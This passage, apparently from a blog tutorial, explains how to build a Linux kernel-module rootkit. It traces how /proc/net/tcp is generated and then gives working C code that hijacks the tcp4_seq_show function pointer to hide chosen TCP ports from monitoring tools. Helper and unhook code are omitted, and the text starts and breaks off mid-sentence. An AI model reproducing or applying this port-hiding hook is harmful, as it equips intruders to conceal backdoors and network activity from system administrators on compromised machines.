	pde = __proc_create(&parent, name, mode, 1);
	if (!pde)
		goto out;
	pde->proc_fops = proc_fops;
	pde->data = data;
	pde->proc_iops = &proc_file_inode_operations;
	if (proc_register(parent, pde) < 0)
		goto out_free;
	return pde;
out_free:
	kfree(pde);
out:
	return NULL;
}
```

​	Here, a new /proc entry is created, whose definition is as follows, in *fs/proc/internal.h*

```c
struct proc_dir_entry {
	unsigned int low_ino;
	umode_t mode;
	nlink_t nlink;
	kuid_t uid;
	kgid_t gid;
	loff_t size;
	const struct inode_operations *proc_iops;
	const struct file_operations *proc_fops;
	struct proc_dir_entry *parent;
	struct rb_root_cached subdir;
	struct rb_node subdir_node;
	void *data;
	atomic_t count;		/* use count */
	atomic_t in_use;	/* number of callers into module in progress; */
			/* negative -> it's going away RSN */
	struct completion *pde_unload_completion;
	struct list_head pde_openers;	/* who did ->open, but not ->release */
	spinlock_t pde_unload_lock; /* proc_fops checks and pde_users bumps */
	u8 namelen;
	char name[];
} __randomize_layout;
```

​	And its *data* filed will be a pointer to *tcp4_seq_afinfo* struct. When this sequence file is opened, the control flows goes by

```c
proc_fops => tcp_afinfo_seq_fops->tcp_seq_open
```

​	It is a general sequence file open implementation, after opening the sequence file it iterates on each *sock* struct and calls the *tcp4_seq_show()* to output formatted information for them. 

​	Remember when we call *proc_create_data* to set up the proc entry and passed an argument names *data*? It points to the struct *tcp4_seq_afinfo*, which holds pointer to *tcp4_seq_show* when the iteration goes on. This is important for later implementation of hook. If we want to hide a port, we can simply hijack this pointer, overwrite it our wrapper function. Let's take look at the implementation of *tcp4_seq_afinfo*.(roll up a little bit to find its definition)

​	The second argument *v* is cast into a struct type *sock*, its definition is as follows, in *include/net/sock.h*

```c
struct sock {
	/*
	 * Now struct inet_timewait_sock also uses sock_common, so please just
	 * don't add nothing before this first member (__sk_common) --acme
	 */
	struct sock_common	__sk_common;
#define sk_node			__sk_common.skc_node
#define sk_nulls_node		__sk_common.skc_nulls_node
#define sk_refcnt		__sk_common.skc_refcnt
#define sk_tx_queue_mapping	__sk_common.skc_tx_queue_mapping

#define sk_dontcopy_begin	__sk_common.skc_dontcopy_begin
#define sk_dontcopy_end		__sk_common.skc_dontcopy_end
#define sk_hash			__sk_common.skc_hash
#define sk_portpair		__sk_common.skc_portpair
    
    .....
}
```

​	The struct starts with an embeded struct type *sock_common*, follows by a bunch of macro definitions. There is one trivial thing to be noted: the bunch of macro definitions allows us to access values in sock_common with no need to dereferrence it. Now let's find out what's in *sock_common* (definition also in *include/net/sock.h*)

```c
struct sock_common {
	/* skc_daddr and skc_rcv_saddr must be grouped on a 8 bytes aligned
	 * address on 64bit arches : cf INET_MATCH()
	 */
	union {
		__addrpair	skc_addrpair;
		struct {
			__be32	skc_daddr;
			__be32	skc_rcv_saddr;
		};
	};
	union  {
		unsigned int	skc_hash;
		__u16		skc_u16hashes[2];
	};
	/* skc_dport && skc_num must be grouped as well */
	union {
		__portpair	skc_portpair;
		struct {
			__be16	skc_dport;
			__u16	skc_num;
		};
	};

	unsigned short		skc_family;
	volatile unsigned char	skc_state;
	unsigned char		skc_reuse:4;
    
    .....
}
```

​	This reasonable to assume that the field *skc_num* stores the local port of a tcp connection. It is exactly what we want. Now we have all we need.

### implementation

​	So the idea here is simple: we hook the *tcp4_seq_show* function, cast the second argument *v* to *sock*, check it's *skc_num* to find out if we want to hide it. If so, directly return 0. Otherwise, we forward the request to the real *tcp4_seq_show*. 

​	The implementation is as follows

```c
static int hack_tcp4_seq_show(struct seq_file *seq, void* v){
    struct sock* sk = v;
    if(v!=SEQ_START_TOKEN && is_port_cloaked(sk->sk_num)){
        return 0;
    }
    return real_tcp4_seq_show(seq, v);
}

// hijack the seq_op->show pointer
static int hook_tcp4_seq_show(void){
    struct file* fp;
    struct tcp_seq_afinfo* afinfo;
    fp = filp_open("/proc/net/tcp", O_RDONLY, 0);
    afinfo = (struct tcp_seq_afinfo*)PDE_DATA(fp->f_path.dentry->d_inode);
    real_tcp4_seq_show = afinfo->seq_ops.show;
    afinfo->seq_ops.show = hack_tcp4_seq_show;
    filp_close(fp, 0);
    return 1;
}

```

​	There are altenative ways to hijack the seq_op->show pointer, the method here is a rather lightweight one. The *proc_dir_entry->data* for */proc/net/tcp* is a pointer to *tcp4_seq_afinfo*, which holds the pointer to *seq_op->show* ----- the funtion we will hijack. We have talked about it earlier. The macro *PDE_DATA* takes an *inode* pointer to a /proc file and returns us the value of its *data* field. So we open the */proc/net/tcp*, get its *tcp_seq_afinfo* struct and overwrite its *show* field with our function and it's done.

​	Like the part in file hide there are also some auxilary functions and data structs to help with the port hiding, plus the unhook operation. I will skip them this time.

​	This part of implementation and mechanisms are strongly related to the kernel sequence file mechanisms. It is an interface to help with the implementation of /proc files, and there is a documentation file in Linux source code names */Documentation/filesystems/seq_files.txt* which provides a simple explanation. I will cover it in anot


# Reference

1. [(nearly) Complete Linux Loadable Kernel Modules](http://www.ouah.org/LKM_HACKING.html#I.3.)
2. [The Linux Kernel Module Programming Guide](https://tldp.org/LDP/lkmpg/2.6/html/lkmpg.html#AEN40)
3. [Linux kernel source code](https://elixir.bootlin.com/linux/v4.15/source)

